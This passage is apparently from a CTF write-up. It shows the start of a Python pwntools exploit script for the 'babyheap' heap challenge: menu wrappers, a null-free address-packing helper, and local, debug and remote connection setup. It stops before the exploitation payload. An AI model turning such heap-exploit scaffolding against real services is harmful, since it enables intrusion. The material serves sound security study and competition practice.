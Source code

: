The full exploit script is as follows:
```python
#! /usr/bin/env python2
import pwn

MENU = "Command:"

def malloc(challenge, size, content):
    challenge.sendlineafter(MENU, "M")
    challenge.sendlineafter("Size:", str(size))
    challenge.sendlineafter("Content:", content)


def free(challenge, index):
    challenge.sendlineafter(MENU, "F")
    challenge.sendlineafter("Index:", str(index))


def show(challenge, index):
    challenge.sendlineafter(MENU, "S")
    challenge.sendlineafter("Index:", str(index))
    menu_beginning = "-----Yet Another Babyheap!-----"
    data = challenge.recvuntil(menu_beginning)

    # Remove the stuff we don't care about.
    data = data[3:-(len(menu_beginning) + 1)]

    return data

def pack_address_and_remove_nulls(address_to_pack):
    # We can't write null bytes, so we need to shorten the payload to just the bits we need.
    packed_address = pwn.p64(address_to_pack)
    first_null_byte_index = packed_address.index("\x00")
    return packed_address[:first_null_byte_index]


def main():
    pwn.context.log_level = "debug"

    elf = pwn.ELF("./babyheap")
    #libc = pwn.ELF("/usr/lib/libc.so.6")
    #pwn.log.warning("YOU'RE STILL USING YOUR OWN LIBC!")
    libc = pwn.ELF("./libc.so")
    preload_env = {"LD_PRELOAD": "./libc.so"}
    if pwn.args.GDB:
        challenge = pwn.process(elf.path, env = preload_env)
        #challenge = pwn.process(elf.path)

        # Breakpoints:
        # 0x128e : (size-1) < 0x178 check in malloc
        # 0x13c6 : malloc_command return
        # 0x13e3 : Near the start of free
        # 0x11c5 : read_long
        # 0x1207 : strtol in read_long
        # 0x140c : memset call in free
        debugger = pwn.gdb.attach(challenge, gdbscript="""
            c
        """)
    elif pwn.args.REMOTE:
        challenge = pwn.remote("babyheap.quals2019.oooverflow.io", 5000)
    else:
        challenge = pwn.process(elf.path, env = preload_env)
        #challenge = pwn.process(elf.path)

```
